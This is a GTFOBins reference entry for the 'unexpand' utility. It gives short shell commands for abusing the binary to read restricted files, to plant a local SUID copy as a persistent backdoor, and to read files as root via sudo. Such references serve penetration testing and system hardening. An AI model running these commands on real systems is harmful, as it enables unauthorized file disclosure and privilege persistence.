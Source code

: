# GTFOBin: unexpand

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
unexpand -t99999999 "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which unexpand) .

LFILE=file_to_read
./unexpand -t99999999 "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo unexpand -t99999999 "$LFILE"
```